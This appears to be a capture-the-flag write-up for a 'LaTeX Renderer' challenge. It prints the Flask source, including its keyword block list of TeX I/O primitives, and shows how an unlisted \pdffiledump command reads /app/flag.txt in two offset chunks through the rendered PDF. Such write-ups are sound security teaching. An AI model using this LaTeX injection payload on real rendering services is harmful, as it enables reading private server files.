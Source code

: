 # LaTeX Renderer

<figure><img src="../../../../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>Flag @ /app/flag.txt</p></figcaption></figure>

### Source code



```python
import os
import re
import subprocess
from flask import Flask, request, send_file
import random
import string

app = Flask(__name__)


graylist = [
    "^^",
    "afterassignment",
    "aftergroup",
    "batchmode",
    "catcode",
    "closein",
    "closeout",
    "command",
    "document",
    "def",
    "errhelp",
    "errcontextlines",
    "errorstopmode",
    "every",
    "expand",
    "expandafter",
    "immediate",
    "include",
    "input",
    "jobname",
    "loop",
    "lowercase",
    "makeat",
    "meaning",
    "message",
    "named",
    "newhelp",
    "noexpand",
    "nonstopmode",
    "open",
    "output",
    "pagestyle",
    "package",
    "pathname",
    "read",
    "relax",
    "repeat",
    "shipout",
    "show",
    "scrollmode",
    "special",
    "syscall",
    "toks",
    "tracing",
    "typeout",
    "typein",
    "uppercase",
    "write",
]

wrapper = "\\documentclass[12pt]{article}\n\\usepackage[latin1]{inputenc}\n\\usepackage{amsmath}\n\\usepackage{amsfonts}\n\\usepackage{amssymb}\n\\usepackage[mathscr]{eucal}\n\\pagestyle{empty}"


def generate_random_string(length=5):
    """Generate a random string of a specified length."""
    letters = string.ascii_letters + string.digits
    return "".join(random.choice(letters) for _ in range(length))


@app.route("/", methods=["GET"])
def index():
    return "Welcome Hacker! go grab your easy win."


@app.route("/render", methods=["GET"])
def render_latex():
    try:
        latex = request.args.get("latex", "")

        for word in graylist:
            if word in latex:
                return {"error": f"Graylist word detected."}, 403

        latex = wrapper + "\n\\begin{document}\n" + latex + "\n\\end{document}"
        rand = generate_random_string()
        path = f"temp_{rand}"
        with open(f"{path}.tex", "w") as f:
            f.write(latex)

        subprocess.run(["latexmk", "-pdf", "-interaction=nonstopmode", f"{path}.tex"])

        return send_file(
            f"{path}.pdf", as_attachment=True, download_name="rendered_pdf.pdf"
        )

    except Exception:
        return {"error": "hmm amigo.."}, 500


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

### Payload



This task has filters that fobid us from reach I/O functions of LATEx

but \pdffiledump isn't graylisted

Crafting the payload&#x20;

<pre class="language-latex"><code class="lang-latex"><strong>\pdffiledump offset 0 length 1000 {/app/flag.txt}
</strong></code></pre>

<figure><img src="../../../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we got a part of the flag we need the missing piece

<figure><img src="../../../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Part II payload , added offset

```latex
\pdffiledump offset 30 length 1000 {/app/flag.txt}
```

<figure><img src="../../../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Boom

<figure><img src="../../../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>
